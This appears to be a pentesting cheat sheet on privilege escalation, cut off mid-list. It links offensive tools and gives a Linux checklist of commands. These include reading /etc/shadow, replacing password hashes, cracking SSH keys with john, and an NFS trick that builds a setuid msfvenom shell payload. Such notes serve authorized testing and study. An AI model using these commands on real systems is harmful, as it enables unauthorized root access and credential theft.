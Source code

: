 [Navisec's privesc documentation](https://delta.navisec.io/privilege-escalation/)

**Payload all the things**

[Linux](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
[Windows](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

### Automated tools

- All platforms:
    - [BeRoot](https://github.com/AlessandroZ/BeRoot)
- Linux:
    - [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
    - [Linux exploit suggester](https://github.com/mzet-/linux-exploit-suggester)
- Windows:
    - [Windows Exploit Suggester New Genration](https://github.com/bitsadmin/wesng)
    - [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
    - [Watson](https://github.com/rasta-mouse/Watson)
    - [Sherlock](https://github.com/rasta-mouse/Sherlock)
    - [windows Exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
    - [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

### Platform specific privescs

#### Linux

Exploit available binaries : https://gtfobins.github.io/

Things to check :
*   Commands runnable with sudo `sudo -l`
    *   if commands are runnable with `NOPASSWORD` then chekc gtfobins
    *   if commands are runnable with `SETENV` that means you can use this to set an environment variable like `PYTHONPATH` like this `sudo -u <user> PYTHONPATH=<your/python/path> <command>`. This will force the program to execute the scripts in the given path whith the rights of the sudo user. Don't forget you can always create files in `/tmp`.
    *   abuse wilcard commands
*   Check users commands history `cat ~/.*history | less`
*   Suid files `find / -perm -4000 2>/dev/null`
*   cron jobs `crontab -l`, `cat /etc/cron.d`
    *   Abuse wildcard commands
    *   Abuse environment variables
*   Polkit vulnerability
*   [Dirty cow](https://www.exploit-db.com/exploits/40616)
*   [mysql running as root](https://www.exploit-db.com/exploits/1518)
*   Writable `/etc/shadow`: generate a new hash with `mkpasswd -m sha-512 <new_password>` and replace the one of an user or create a new user
*   Writable `/etc/password`: generate a new password hash with `openssl passwd newpasswordhere` and then replace the `x` of a user or create a new one
*   Readable `/etc/shadow`: read the password's hash of the users and try to crack them
*   Readable ssh keys (use it to connect as the user)
    *   If the ssh key is password protected you can use `ssh2jonh.py id_rsa > tojohn.txt` to convert it into a hash and the crack the password with `john tojohntxt`
*   writable `know_hosts` file: add your `id_rsa.pub` key in it and then connect as the user
*   Secrets in config files
*   Abuse NFS configuration:
    *   Check: `cat /etc/exports`
    *   Exploit: 
        *   Mount the nfs on your machine `sudo mksir /tmp/nfs;sudo mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs`
        *   Generate payload `msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
        *   Add suid bit and execution `chmod +xs /tmp/nfs/shell.elf`
        *   Execute the payload on the machine `/tmp/shell.elf`
*   Abuse kernel exploits (
